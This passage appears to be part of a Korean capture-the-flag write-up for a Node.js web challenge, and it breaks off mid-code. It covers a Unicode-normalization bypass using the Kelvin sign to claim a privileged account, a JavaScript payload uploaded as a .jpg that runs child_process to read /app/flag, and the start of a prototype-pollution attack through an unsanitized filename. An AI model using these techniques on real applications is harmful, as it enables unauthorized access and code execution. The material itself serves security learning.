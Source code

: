 ```js
                    else{
                        const params = [name.toLowerCase(), id.toLowerCase(), func.sha256(pw.toLowerCase())];
                        conn.query(mysql.format("insert into users(name, id, pw) values(?, ?, ?);", params), function(err, rows){
                            if(err) { res.send(err);}
                            else {res.redirect("/login");}
                        });
                    }
                  }
                }
            });
        }
    }
});

```

- `id`가 `korea_pocas`라는 계정이 있으면 `/debug`에 접근 가능해지기 때문에 필터링이 존재

- 아래의 코드에서 대문자를 소문자로 바꾸는 부분이 있는데, 이때 `toLowerCase()` 함수는 정규화 과정을 거침
```js
const params = [name.toLowerCase(), id.toLowerCase(), func.sha256(pw.toLowerCase())];
```

- [Unicode Normalization Table](!https://www.unicode.org/charts/normalization/)에 있는 정보를 기반으로 K(U+212A)로 `korea_pocas`계정을 얻을 수 있음
- `Korea_pocas` 로 계정 생성 후 `korea_pocas` 로 로그인


### 2. RCE
- `/debug` 엔드포인트에서 플래그를 출력하게 만들기 위해 디버깅할 때와 동일한 방식으로 RCE코드 작성 후 `tmp.jpg` 업로드
- 위에서 `js`은 업로드가 안되므로 `jpg`로 확장자 바꿔서 넘김(하면서 알았지만 `js`로 넘겨도 결과에 차이가 없음)
```
console.log(require('child_process').spawnSync('/bin/cat', ['/app/flag']).stdout.toString());
```

- upload 경로는 `/app/publics/uploads/tmp.jpg`임


### 3. Environment Variable Manipulation with Prototype Pollution
- `/raw/:filename` 엔드포인트에서 `filename`을 url 상에서 받고 있으므로 Injection이 가능한데, 이를 이용해 `Prototype Pollution`을 사용할 수 있음
```js
app.get('/raw/:filename', function(req, res){
    const file = {};
    const filename = req.params.filename;
    const filepath = `publics/uploads/${filename}`;

    try{
        func.getfile(mysql.format("select * from filelist where path = ?", filepath), function(err, data){
            if(err) {
                res.send(err);
            }
            else{
                if (data){
                    res.download(data.path);
                }else{
                    try{
                        func.merge(file, JSON.parse(`{"filename":"${filename}", "State":"Not Found"}`));
                        res.send(file);
                    } catch (e) {
                        res.send("I don't know..");
```